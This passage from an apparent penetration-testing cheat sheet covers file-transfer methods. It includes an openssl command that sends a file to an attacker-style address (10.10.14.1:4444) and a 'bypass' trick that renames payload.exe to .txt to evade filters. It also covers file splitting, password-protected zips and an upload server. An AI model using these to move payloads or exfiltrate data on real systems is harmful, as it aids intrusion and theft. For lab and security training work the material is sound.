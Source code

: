 #### openssl
```bash
# Receiver (create encrypted tunnel)
openssl s_server -quiet -accept 4444 > received_file.txt

# Sender
openssl s_client -quiet -connect 10.10.14.1:4444 < file.txt
```

---

## Bypass Techniques

### Rename Executable Extensions
```bash
# Rename .exe to .txt
mv payload.exe payload.txt

# After transfer, rename back
mv payload.txt payload.exe
```

### Split Large Files
```bash
# Linux - Split file
split -b 10M large_file.bin part_

# Windows - Combine files
copy /b part_* large_file.bin

# Linux - Combine files
cat part_* > large_file.bin
```

### ZIP with Password
```bash
# Create password-protected zip
zip -P password archive.zip file.txt

# Extract
unzip -P password archive.zip
```

---

## Common Web Servers for File Transfer

### Python uploadserver module
```bash
# Install
pip3 install uploadserver

# Run with upload capability
python3 -m uploadserver 8000
```

